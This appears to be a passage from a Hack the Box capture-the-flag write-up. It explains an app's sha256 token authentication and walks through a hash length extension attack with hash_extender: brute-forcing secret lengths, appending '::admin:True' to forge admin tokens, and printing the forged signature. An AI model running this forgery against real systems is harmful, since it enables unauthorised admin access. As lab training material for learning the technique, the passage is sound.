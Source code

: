 ```markdown
    }
});
app.get("/file/upload", (q,r,n) =>{r.json({"message":"Disabled for security reasons"});});
app.get("/*", (q,r,n) => {r.json("200 not found , redirect to .");});
```
The app running on port 3000 runs several APIs, we just need to focus on `/get/file` and `/users`. These endpoints use token authentication which is enforced in function `ensure_auth`. An user authenticates sending 2 headers: `ihash` and `identification`<br>
The identification header is formed taking an username and appending certain string, then it is base64-encoded. Finally, a sha-256 hash is calculated on the resulting string using a secret key stored in env variable `k`, but we do not know this key or its length.<br>
The `ihash` header is a signature hash which will be compared to the resulting identification to verify user's identity.<br>
If we remember the `init.sh` file, we already know the value of the prepended data and the hash, so we we can launch a `hash_extender` attack (https://www.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks).<br>
Install the `hash_extender` tool from github https://github.com/iagox86/hash_extender<br>
```markdown
> git clone https://github.com/iagox86/hash_extender
> cd hash_extender
> make
```
Several deprecated warnings prevent make the application, but this can be solved editing the Makefile and adding `-Wno-deprecated-declarations` in the CFLAGS line.
```markwdown
> vim Makefile
CFLAGS          := -std=c89 -g -oS -Wall -Werror -Wno-deprecated-declarations
```
We do not know the size of the secret, so we will have to brute force it. First step is to generate a file called `strings` containing hashes from size 1 to 47. We use the username `bot1:bo` from the `init.sh` file, and the append string is `::admin:True`. The signature hash is taken also from the `init.sh` file. Finally, the results are base64 encoded and written to the `strings` file.
```markdown
> for i in $(seq 1 47); do ./hash_extender --data bot1:bot --append '::admin:True' -f sha256 -s 4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1 -l $i | grep 'New string' | awk -F': ' '{print $2}' | base64 -w 500 >> strings;done
> wc -l strings
47 strings
```
We also need the `New signature`, we grab it launching a `hash_extender` with whatever length, (e.g. 20)
```markdown
> ./hash_extender --data bot1:bot --append '::admin:True' -f sha256 -s 4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1 -l 20

Type: sha256
Secret length: 20
New signature: 14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b
New string: 626f74313a626f748000000000000000000000000000000000000000000000000000000000000000000000e03a3a61646d696e3a54727565
```

![ouija9](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/40545b07-9a68-480c-83df-d046fc111c4c)
